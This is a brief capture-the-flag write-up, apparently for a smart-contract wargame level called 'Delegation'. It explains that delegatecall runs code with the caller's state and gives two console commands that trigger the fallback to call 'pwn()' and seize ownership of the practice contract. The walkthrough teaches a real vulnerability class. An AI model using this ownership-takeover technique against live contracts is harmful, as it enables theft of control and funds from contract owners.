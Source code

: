 # Delegation

The goal of this level is for you claim ownership of the instance you are given.

## Solution

`delecatecall` allows us to [call contracts with the state of the caller](https://solidity.readthedocs.io/en/v0.5.3/introduction-to-smart-contracts.html#delegatecall-callcode-and-libraries). We can trigger the fallback function to call a remote function that manipulates the contracts own state!

1. Got the hash of the `pwn` method with `web3.sha3("pwn()").slice(0, 10)`
2. Triggered the falback method to call the `pwn` method with `contract.sendTransaction({ data: "0xdd365b8b" })`
